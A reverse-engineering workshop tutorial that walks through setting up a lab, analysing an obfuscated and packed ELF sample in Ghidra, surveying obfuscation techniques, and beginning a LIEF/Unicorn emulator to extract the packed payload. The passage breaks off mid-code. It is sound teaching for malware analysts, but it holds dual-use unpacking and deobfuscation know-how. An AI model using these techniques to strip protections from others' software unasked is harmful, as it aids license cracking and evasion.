Format
This workshop is presented as a hands-on tutorial and participants are encouraged to follow along and work through the exercises. Feel free to ask questions or request clarifications at any point during the workshop as it is an integral part to the experience.
Requirements
There are only two hard requirements in order to follow along with the workshop:
- 2-3 hours of your time
- A computer with administrative privileges with the following software:
- Docker
- Ghidra
- Your favorite code editor
- An interest in binary analysis and/or reverse engineering
- An internet connection
Setup
- Download Ghidra
- Download Docker Image
- Download Sample (Password: infected)
- Install Docker (and optionally docker-compose)
- Make sure you have a Java JDK and the JDK's
bin/directory on yourPATH.
Once everything is installed and functional, import the docker image and start an instance of the container:
mkdir ~/ABA && cd ~/ABA
wget https://nsec2020.nyc3.digitaloceanspaces.com/docker.tar.gz.zip
unzip -P 'eJ@SbPIqZcpY#PGZ^PqN#JuG%pF42Z2VBq1zDOUEKRJIw#h' docker.tar.gz.zip && rm docker.tar.gz.zip
docker image load -i docker.tar.gz
docker run --name aba-workshop -p8888:8888 -v$(pwd):/home/joyvan/host -it advanced-binary-analysis
This will spawn a persistent container instance named aba-workshop and map your current directory to the container at /host so that you can easily share files. You can then navigate to http://localhost:8888 using the access token from your terminal to access the lab environment.
After the workshop, you can remove the docker container with the following code if you want to keep your system clean:
docker stop aba-workshop
docker rm aba-workshop
docker rmi advanced-binary-analysis
We're all set! Ready? Let's go!
Overview
In this step, you will perform initial reconaissance work on the sample and get a sense for what it does, and how to approach its analysis. You will learn the following:
- Setting up a Ghidra Project
- Performing Automatic Analysis in Ghidra
- Identifying Functions of Interest
- Identifying Obfuscation
Retrieving the Sample
Start by downloading the sample if you haven't already. The zip file is protected with the password "infected", which is common to prevent anti-virus software from removing your samples. The file is not actually malicious, and we won't be executing the sample in this workshop.
wget https://nsec2020.nyc3.digitaloceanspaces.com/sample.zip
unzip -P infected sample.zip
Normally after acquiring an unknown sample, it's a good idea to run a bit of initial reconaissance against it to get a sense for what it is.
$ file aba
aba: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV),
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=3c84b0631314611c707c61f75d47bda5aedfecbe,
for GNU/Linux 3.2.0, stripped
$ strings aba
...
libdl.so.2
dlinfo
dlopen
libz.so.1
uncompress
libc.so.6
puts
memalign
strlen
memset
memcpy
rand
mprotect
malloc
...
ldr: Invalid module magic.
ldr: unable to resolve %08X::%08X
ldr: failed to verify module %08X
Advanced Binary Analysis Workshop
...
$ binwalk aba
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 ELF, 64-bit LSB shared object, AMD x86-64, version 1 (SYSV)
$ binwalk -E aba ## Calculate whole-file entropy
DECIMAL HEXADECIMAL ENTROPY
--------------------------------------------------------------------------------
0 0x0 Falling entropy edge (0.252028)
Taking a Deeper Look with Ghidra
Launch Ghidra and create a new project in the directory of your choice, giving it a descriptive name.
Import the binary using the I shortcut or navigate to File > Import File...
After the binary is imported, Ghidra gives you a summary of the binary's metadata. This information gives you a quick overview of whether Ghidra has successfully resolved imports or not.

Ghidra projects consist of one or more binary files which make up a single logical reverse engineering task. Having auxiliary binary files such as additional shared objects, unpacked files, and other binary blobs in the same project makes it possible to cross-reference them and keep everything in one tidy spot.
You can launch the Code Browser tool by double clicking on a given file in the project window.
Do so now on the freshly imported aba file.
Automated Analysis
When the Code Browser loads a new file, it will offer to perform automated analysis on it. For small binaries, this is usually a good option and deploying the full strength of Ghidra's analysis suite in these cases can greatly enhance the quality of information and facilitate the process of reverse engineering.

In the case of larger binary files, analyses can become resource intensive and time consuming, making it necessary to selectively run analyses as needed.
In this lab, however, it is safe to run all analyses. If you selected No at the automated analysis prompt, it is always possible to re-run any analysis manually by going to the Code Browser's Analysis > Auto-Analyze ‘... menu entry (shortcut: A)
After analysis, Ghidra will have identified and annotated a lot of data for you, such as function starts, cross-references across functions, data references, and more.

Identify Interesting Bits
The most difficult part of any reverse engineering effort is almost always determining which parts of the program are worth looking at and which parts are endless time sinks. It is important to have both a very narrow view of the program internals when focusing on specific functions, and to simultaneously keep a high-level view of the overall structure ("the big picture") of the program otherwise it is easy to go in circles without making any significant progress.
While this is not an exhaustive list, it helps to follow these principles:
- Have a specific goal (e.g. Defeat the anti-debugging routine, find the sandbox checks, etc.)
- Identify elements relevant to that goal
- Have a structured and incremental program annotation process
- Review and re-evaluate your knowledge frequently
- Revalidate your assumptions periodically throughout the effort
We will now walk through several sources of information that can help with answering the "Where do I start?" question that often comes after a goal has been established.
IMPORT ANALYSIS
Let's take a look at the imported functions by aba. Imports are a great source of information on potential program behavior, since library functions are referenced by name and the library must be referenced somehow in the program. We use Ghidra's Functions view (Window > Functions) and enable the Mem Block column by right-clicking on any column header and selecting Add/Remove Columns.... Next, we can filter by .plt to get only imported functions. PLT stands for Procedure Linkage Table and can be thought of as an import table for functions that are implemented in external libraries.
When reviewing imports, knowledge of common libraries and frequently used third party libraries is important to get a quick idea of what the sample's capabilities are. It helps to group the imports by logical purpose.
For instance, dl functions are used to manage dynamic libraries at runtime, resolve functions from those libraries.
Memory management functions such as memalign and mprotect are commonly used to allocate memory and mark it as executable, to turn data into code or execute shellcode.
These APIs are interesting because they are the boundary between a program and the operating system facilities, and with the exception of bare system calls, are ultimately unavoidable.
Once an interesting import is identified, finding where it is called from is a very efficient method for identifying interesting functions in the program under analysis. Ghidra's analysis will compute as many cross-references as possible, but it can and will miss dynamically computed references.
ENTROPY Entropy is the indication of how random data is in a given block of data. The higher the entropy, the more unrelated the data in the given block is. Compression and encryption, by their very nature, yield data with very high entropy, whereas code and data have structure and repetition to them, yielding much lower entropy.
Because compression and encryption are often used to hide data or code from curious people, identifying high entropy data and its cross-references is a good method to determine whether a sample is packed.

DATA XREF
In some cases, debug strings or convenience functions (one big example being enumeration value to string conversion routines) will help you identify the functions you are looking for. In some real world samples, the debug strings left in the binary includes as much as all function tracing code, making symbol recovery extremely easy.
Using this method relies on Ghidra's Search > For strings... to identify relevant or interesting strings, then following the data cross-references to find the functions which make use of the data. This works only when the data references are static and not computed at runtime.
FUNCTION BROWSING
In some cases, when the sample doesn't have too many identified functions, a more manual approach is to skim through each function and looking at the control-flow and decompilation output to get a sense for what the functions are doing.
A Word on Dynamic Analysis
People who are used to debugging might feel like all of this overhead would simply vanish by attaching a debugger and inspecting the state at specific points in the program. While this is certainly true, there are benefits and drawbacks to both approach. The biggest gain from dynamic analysis is itssimplicity of use, but it also suffers from being easily detected and made tedious by moden malware.
The table below shows some of the pros and cons for both analysis techniques.

Despite code evaluation being considered a good thing for dynamic analysis as it makes inspecting state a lot easier, it can also be a major risk when performing malware analysis, since the malicious code will be running and infecting the system in which analysis runs.
Static analysis has the added benefit that any modifications (such as statically unpacking or instrumenting a sample) means that the file is permanently altered, whereas a dynamic instrumentation would have to perform the steps for every new binary instance.
In practice, a mix of both types of analysis is often used according to what is faster or easier in the context of the reverse engineering effort, or what the analyst's preferences are.
Overview
In this step, we will explore various obfuscation techniques and the reasons behind obfuscation. You will learn the following:
- What various obfuscation techniques look like
- Motivation and goals of obfuscation
- Identifying obfuscated code
Why Obfuscate?
There are multiple reasons to obfuscate code: The most common one is Digital Rights Management (DRM). A good example of this would be obfuscating license validation code to make it more difficult for crackers to bypass license checks or forge master licenses. Another very big area for obfuscation is anti-cheat software, which is becoming more and more prevalent with the rise of E-Sports and tournaments with ever-increasing cash prizes and big business models surrounding them.
Of course, there are also more dubious reasons, such as hiding malicious behavior from the prying eyes of incident responders and evading anti-viruses or sandboxes.
Obfuscation's primary goal is making an analyst's job difficult. Computers are good at executing a lot of instructions very quickly, and so obfuscation generally abuses this fact by taking simple, compiler optimized code and de-optimizing so that it becomes difficult for a human analyst to understand at the cost of more computations by the CPU.
All of these techniques are often combined and layered in passes to achieve arbitrary levels of complexity.
There are many different types of obfuscation and this section aims to present the most commonly seen form of obfuscations so that you can identify them if you run across them in the wild. Each technique is explained conceptually and when possible a simple example is shown to help visualize the transformations that occur.
Junk Code Insertion
The actual instructions are interleaved with code that does not affect the outcome of the instructions. This is a basic technique which can be easily defeated when used on its own, but it is often enough to fool less experienced analysts. This technique becomes useful when combined with opaque predicates and metamorphic code.

Metamorphic Code
Metamorphic code is a technique which consists of expanding an instruction into a series of convoluted steps that yield the same result. It is an overarching theme of obfuscation and is at the core of several other techniques.
Data Encoding
Arithmetic operations and literal values are expanded in multiple obtuse computations that are equivalent to the original. This applies to strings as well by performing temporarily computing the decoded string for the duration of a call where it is required, and then wiping or re-encoding that memory after the call returns.
Opaque Predicates
Branches with a static outcome (i.e. always taken or never taken) are inserted in the code and the computation of the branch predicate is itself obfuscated. This technique explodes the code's cyclomatic complexity, and makes most decompilers generate horrible looking code.

Splitting
Functions or basic blocks are split into smaller functions or blocks with unconditional jumps, calls, or opaque predicates and interleaved across the image, making it difficult for a human to keep track of the context/state of the function as it becomes impossible or very difficult to have a full-picture view of the code.

Control Flow Flattening
Transforms the logic flow of a function into a state machine which loops over the state and flattens all paths into a single dispatch table based on the state. Each branch updates the state according to the next branch. Flattening is similar in appearance to virtualization with the exception that there is no bytecode being interpreted.

Virtualization
Virtualization is among the most recent advancements in obfuscation. It works by converting the native code into a dynamically generated, unique bytecode with a matching interpreter loop. The function call is then replaced with an entry point to the virtual machine with a pointer to the bytecode stream to run.
This is one of the more difficult techniques to break.
The control flow graph will look almost identical to a control-flow-flattened function but with the addition that instead of embedding the state into the function itself, a run of bytecode is loaded and processed by the interpreter.
Polymorphic Code
Code that modifies itself during execution, altering what it does or the path it takes on subsequent executions, or even during the same execution. This technique can be very hard to analyse but requires writable and executable memory (or calls to memory protection APIs) which makes it detectable.
But Wait, there's More!
These are commonly used techniques, but finding obfuscation techniques is an area of research in its own right, so expect to find new and fascinating techniques to analyse in the wild.
Now that we have a grasp of what obfuscation is and what common techniques exist, it's time to dive into the first lab, where you'll analyze the mysterious sample
Overview
In this step, you will go over the sample's code in Ghidra, identify the high level functionality of the program, identify the obstacles and determine a specific goal. By the end of this step you will have learned how to:
- Use Ghidra to annotate functions and structures
- Inspect Call Graphs and navigate cross references
- Use the graph view, decompiler and assembly listings
Identifying the Program Entry Point
Moving back to Ghidra, you should have your aba project open with the auto-analysis complete from the previous step. Let's start by locating the entrypoint of the program. As you may know, the main symbol is the first function that gets called when your program start, but while this is true from your program's perspective, it is not entirely accurate from the operating system's perspective.
The ELF format has a field called entry which contains the location of the first function to call when the program starts. The operating system's loader will load the program's executable image in memory, initialize external libraries, create the main execution thread and finally move execution to the location specified by entry once all of this work is done.
The compiler usually sets entry to a generated function that performs common start up tasks such as initialize the runtime structures, process arguments and environment flags and so on, and this is the function that will eventually call your main.
In practice, this means that the program's main might not be immediately visible, as symbol names are often stripped.
Going through the symbol tree of the sample, there is indeed no main to be found, so instead we start from entry and work our way through the initialization function until we identify the original main function.
With ELFs that link against LIBC, main will usually call an external function, __libc_start_main which looks like the following:
int __libc_start_main(int *(main)(int, char**, char**), // Address of main
int argc, char** ubp_av, // Argument count and Argument values pointer
void (*init) (void), // .init function pointer
void (*fini) (void), // .fini function pointer
void (*rtld_fini) (void), // .fini function for the dynamic loader
void (* stack_end)); // pointer to the end of the main thread stack.
This essentially means that once we find this function call, the first argument (which will be stored in rdi according to the Linux x64 calling convention) is the address of main. Following this address gives us the main function.
Analyzing the Main Function
Before we get started, here are a few hotkeys to keep in mind if you're more of a keyboard person:
- L Rename Label / Function
- ; Add Comment
- G Goto Address / Label / Expression
- C Clear Code at location
- D Disassembly at location
Now that you've identified main, it's a good idea to name it so that it's easier to navigate to it later. In Ghidra, renaming works differently for labels and function names, but they both share the same hotkey of L for "Label", otherwise right click and select Edit Label... or Functions > Rename Function depending on whether Ghidra's analysis has identified your function.
Now type main and hit enter to confirm.
The main function appears to call a few functions in turn, but before diving into any of them, let's scroll through the graph view and get an idea of what it's doing.
The function itself is linear and makes a few interesting calls:
main:
;; ...
001029a1 CALL FUN_00102be3
;; ...
001029d8 CALL malloc
00102a08 CALL rand
00102a15 CALL malloc
00102a70 CALL rand
00102a7d CALL malloc
;; ...
00102b00 LEA RDI,[DAT_001084c0] ; "Advanced Binary Analysis Workshop"
00102b07 CALL puts
00102b0c LEA RDI,[DAT_0010ad40]
00102b13 CALL FUN_001013de
;; ...
00102b18 MOV ESI,0x333b7d02
00102b1d MOV EDI,0xcff72411
00102b22 CALL FUN_001012fb
;; ...
00102b33 MOV ESI,0x95544373
00102b38 MOV EDI,0xcff72411
00102b3d CALL FUN_001012fb
;; ...
00102b56 MOV RDI,RAX
00102b59 CALL RDX
00102b5b MOV EAX,0x0
00102b60 LEAVE
00102b61 RET
Stripping out all the noise and focusing only on the calls, the function appears to perform some initialization (FUN_00102be3), then allocates some memory and makes some calls to rand() to get some random data, and then prints a banner that reads "Advanced Binary Analysis".
Next, it calls FUN_001013de with a pointer to some global data as its single argument.
Following that, two calls to FUN_001012fb which takes two hardcoded constants, are made and the first call's return value (in RAX) is stored in RDX. The second call's return value is then passed as an argument to CALL RDX, hinting that RDX is a function pointer.
At this point, there is enough information to start guessing at what is going on here. It's a good idea to incrementally review the names you assign to functions and labels, as your understanding of the program becomes clearer. A first pass could realistically make the following renames:
Symbol | New Name |
FUN_00102be3 | maybe_init |
DAT_0010ad40 | main_data |
FUN_001012fb | maybe_process_consts |
FUN_001013de | maybe_process_data |
It's very important to have a naming system in place that reflects the level of certainty in your annotations, and every analyst will have their own preference when it comes to that. A simple system that works for getting started is adding a prefix such as maybe_, wip_, and todo_ to represent the analysis state of a function.
Another idea might be to use a confidence indicator (0-100) as a suffix. Experience will help you find what suits you best. On collaborative projects, some analysts like namespacing their symbols with their username as well because it makes it easier to find who to ask questions about a particular piece of code.
As an analyst, you have the choice of what to analyze next. Functions tend to lead to even more choices, so it's a good idea to check data first, as it's usually quick and may yield some interesting knowledge.
Analyzing DAT_0010ad40 (main_data)
We start our analysis by jumping to DAT_0010ad40. You can do this by clicking on the label and hitting the Enter key on your keyboard. We are greeted with a lot of uninitialized data and cross references. To be specific, there appears to be one cross-reference per byte of data, all of which are coming from a single function: FUN_00102C54. Following the XREF, the function appears to do nothing but move bytes into main_data. Definitely some kind of initialization function, and to confirm, our suspicions, the incoming call to this data moving function (which we can rename to init_main_data) appears to be from maybe_init.
We can safely rename maybe_init to init, now that we know what it's doing.
Analyzing FUN_001012fb (maybe_process_consts)
Next we analyze the function which is processing constants since it is called by both main and process_data. The reasoning behind this choice is that understanding what this function does will help us understand what the other functions are doing.
Upon first inspection, this function has a little bit more complexity than the previous. We take a quick look at the graph and observe two loops which appear to be nested into one another. The decompilation view shows that a variable called local_28 is assigned data from DAT_0010ad20. Given the accesses that we see to this local_28 variable, we can guess that it is a pointer some kind of structure and the expressions in the form of *(cast*)local_28 + offset) are field accesses.
The biggest offset access seems to be at offset 0x20, for an 8 byte pointer which is dereferenced and assigned to local_28, telling is that this is some sort of linked list.
// Classical linked list traversal.
struct node_t* node = list_head;
while (node->next) {
node = node->next;
}
We'll create a custom data type for it using Ghidra's type manager and give it a size of 0x28 and name the field at offset 0x20 next.
First, find the data type manager window at the bottom left of the Code Browser and right click on aba, then select New > Structure.... Then type 0x28 in the size box and hit Tab for the structure editor to refresh. Name the structure something meaningful (for instance const_struct1).
Next, find offset 0x20, change its data type to void* and rename it to next. After saving the structure, go back to the decompilation view and retype the local_28 variable (shortcut Ctrl+L) to const_struct1*. Notice that the reference to local_28->next immediately appears, making the code a lot easier to read.
After repeating this exercise a few times and end up with the following code listing:
void * find_from_consts(uint const1,uint const2)
{
void **auxiliary_res;
const_struct1 *list1;
const_struct2 *list2;
void *retval;
list1 = global_list;
while ((list1 != (const_struct1 *)0x0 && (const1 != list1->hash))) {
list1 = list1->next;
}
if (list1 == (const_struct1 *)0x0) {
retval = (void *)0x0;
}
else {
list2 = list1->sublist;
while ((list2 != (const_struct2 *)0x0 && (const2 != list2->hash))) {
list2 = list2->next;
}
if (list2 == (const_struct2 *)0x0) {
if (list1->unk_ptr == (void *)0x0) {
retval = (void *)0x0;
}
else {
/* If the pointer is set, call an alternative search function */
auxiliary_res = (void **)maybe_extended_find(list1,(ulong)const2,(ulong)const2);
if (auxiliary_res == (void **)0x0) {
retval = (void *)0x0;
}
else {
retval = *auxiliary_res;
}
}
}
else {
retval = list2->value;
}
}
return retval;
}
This is starting to look like some kind of lookup function based on hashes, so we can rename it find_from_consts. In the process, we've also recovered partial structure information
typedef unsigned char undefined;
typedef unsigned char byte;
typedef unsigned char dwfenc;
typedef unsigned int dword;
typedef unsigned long qword;
typedef unsigned int uint;
typedef unsigned long ulong;
typedef unsigned char undefined1;
typedef unsigned int undefined4;
typedef unsigned long undefined8;
typedef unsigned short word;
typedef struct const_struct1 const_struct1, *Pconst_struct1;
typedef struct const_struct2 const_struct2, *Pconst_struct2;
struct const_struct1 {
undefined field_0x0[8];
uint hash; /* Created by retype action */
undefined field_0xc[4];
void * unk_ptr; /* Created by retype action */
struct const_struct2 * sublist; /* Created by retype action */
struct const_struct1 * next;
};
struct const_struct2 {
void * value;
uint hash; /* Created by retype action */
undefined field_0xc[4];
struct const_struct2 * next;
undefined field_0x18[8];
};
We have a good idea what this function does now, but it would be helpful to know where that list comes from... unfortunately, we do not have the necessary information (yet) to answer that, and so this question can be put on a list of auxiliary goals.
Analyzing FUN_001013de (maybe_process_data)
Next, we peek into maybe_process_data and are greeted by a very messy-looking function. In fact, it is so messy that even Ghidra's graph view is complaining and saying that it can't render it properly. Oh boy.
The only thing we know for sure at this point is that the main_data buffer is passed as an argument to this function. The rest is hidden in what looks like a big switch case.

We'll rely on a different feature of Ghidra to get a preliminary idea of what this function is doing, the call tree. To open it, click on the diagonal green arrow button next to the purple checkmark. This view displays cross-references as a list of inbound functions (functions calling this maybe_process_data) and outbound function calls (functions called by maybe_process_data). It is recursive, so if you expand one of the called functions, it will show you what functions are called from there, and so on.
This view gives a general idea of the code flow to and from the function under analysis.
The call to uncompress is a good indicator that this data is compressed somehow, but it doesn't look like a valid archive format, so in all likelyhood it is also encrypted, and this function (or one of the functions it calls) is responsible for decompressing it.
Analyzing this function looks like a very daunting task though, so instead, we will let the code itself do the hard work for us.
Summary
We've gone through a few of the core functions of the sample, and now have a very good idea of what the functionality is, but there are still a few unanswered questions:
- What is this large chunk of data in
main_dataand what ismaybe_process_datadoing with it? - How is the
global_listofconst_struct1populated? - What even is
const_struct1?
All of these questions can be answered by diving further into the call tree and analyzing more functions. We will focus on answering the first question in the next lab. The other two are left as optional exercises, but the remaining labs may give you a good idea.
In the next lab, we will write an emulator to analyse the obfuscated function.
Overview
In this step, you will build an emulator from the ground up by using LIEF and Unicorn Engine, once the emulator is complete, you will be able to use it to extract the packed payload without having to analyze and understand what the unpacking routine is doing. By the end of this step, you will have learned the following:
- Using LIEF to parse executable file formats
- Using Unicorn Engine to emulate code
- Building custom tools on top of Unicorn Engine
- Altering the emulated CPU state dynamically
- Stubbing out external functions
Ground Work
In this section we will be manipulating binary files and doing a lot of low level legwork to get the emulator working. First, we import a number of modules that come in handy most of the time when dealing with binary formats.
import lief # Executable format parsing
from unicorn import * # Unicorn emulation engine
from unicorn.x86_const import * # Unicorn X86 and X64 constants.
from struct import pack, unpack # Packing / Unpacking
Next, we define a few interesting addresses extracted from the program analysis performed in Ghidra
NOTE: RVA stands for relative virtual address and represents an offset from the base of the image. The virtual address (VA) is computed as
VA = BASE + RVA
Which addresses are relative and absolute can quickly become confusing, so it's a good idea to pick one approach (here, BASE+RVA) and stick to it. It also helps to label variables with RVA and VA accordingly.
BASE = 0x00100000 # The base address of the executable
PACKED_RVA = 0x0000AD40 # The offset of the packed bytes buffer
MAIN_RVA = 0x0000298E # The offset of the main function
UNPACK_RVA = 0x000013D0 # The offset of the unpacking function
AFTER_INIT_RVA = 0x000029A6 # The offset immediately after `init` has returned
LOOKUP_RVA = 0x000012FB # The offset of the symbol lookup routine
PACKED_SIZE = 2497 # Size of the packed bytes buffer
START_RVA = MAIN_RVA # THe offset to start emulation at
STOP_RVA = 0x00002B18 # The offsett to end emulation at
PAGE_SIZE = 0x1000 # The size of a memory page.
# Load the sample using LIEF
ELF = lief.parse('bin/aba')
Extending Unicorn
By itself, Unicorn doesn't go beyond emulating a CPU and running instructions. What this means is that in order to do anything more complex than emulating shellcode, the analyst is responsible for providing all of the platform and operating system functionality that normal programs rely on to function.
We will build an emulator class that wraps Unicorn and adds basic tracing capability for debugging and support for stubbing out addresses or external symbol.
It is important to keep in mind that LIEF is a binary format parser and not a loader. That is to say, the executable data will be in an unmapped format. What this means is that our code will have to handle several loader tasks such as BSS expansion, segment mapping, and relocations.
class Emulator:
"""Wrapper around Unicorn Engine which adds functionality"""
STACK_VA = 0x00055000 # Virtual Address of fake stack
def __init__(self, elf: lief.Binary, base=0x00100000, stack_size=0x1000):
"""Initialize the Emulator State."""
self.elf = elf
self.base = base
self._stack_size = stack_size
